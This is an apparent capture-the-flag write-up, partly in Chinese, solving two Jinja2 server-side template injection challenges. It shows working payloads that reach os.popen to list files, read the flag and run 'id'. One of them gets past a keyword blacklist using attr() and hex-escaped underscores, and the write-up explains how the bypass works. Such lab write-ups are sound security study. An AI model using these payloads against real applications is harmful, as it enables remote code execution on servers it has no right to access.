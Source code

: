 ## SSTI1
![image](https://github.com/user-attachments/assets/80582f85-c78e-4581-a1b1-978f59d5d673)
![image](https://github.com/user-attachments/assets/119de55d-3919-4169-a731-c784e14b5a0e)


```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -al').read() }}
```

![image](https://github.com/user-attachments/assets/7fa5996c-37dc-4787-9e04-f8ff16551076)

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```
![image](https://github.com/user-attachments/assets/8bccdcd5-e1bb-429e-a875-af32b20c4bb5)

---

## SSTI2

![Screenshot_2025-05-21_00-50-47](https://github.com/user-attachments/assets/15e13182-7f12-4186-b131-0ddf72b10968)
![Screenshot_2025-05-21_00-51-13](https://github.com/user-attachments/assets/7922c3ba-d8f1-4fed-9fe0-c536d7eb2d94)

### 初步嘗試
我使用了典型的 Python Jinja2 RCE payload 嘗試取得系統資訊
```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
伺服器回傳
![Screenshot_2025-05-21_00-56-51](https://github.com/user-attachments/assets/aced685a-8f45-4509-a72c-72fa44fd337d)

多次嘗試後發現
- 幾乎所有關鍵字或符號都被過濾：像是 `__`, `.`, `[`, `]`, `|` 等
- 常見的 Python 關鍵字如 `join`, `mro`, `base` 等也被攔截
表示伺服器存在黑名單機制
運用了 @SecGus 在 GitHub 上的技巧：
參考資料：[PayloadsAllTheThings - SSTI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)
關鍵概念是：
- 使用 `attr()` 函式來取代點記法；
- 用十六進位表示字串（例如 `__` → `\x5f\x5f`）來繞過字元過濾。
統整出
```jinja
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
運作原理如下：

1. 透過 `request` 取得 `application` 對象；
2. 進入其 `__globals__`；
3. 從中找到 `__builtins__`，再透過 `__import__` 載入 `os` 模組；
4. 執行 `os.popen('id').read()`，執行系統命令並回傳輸出。

![Screenshot_2025-05-21_01-05-23](https://github.com/user-attachments/assets/49e44d53-f16d-4c45-8c46-bb7aeeb38524)

得到flag

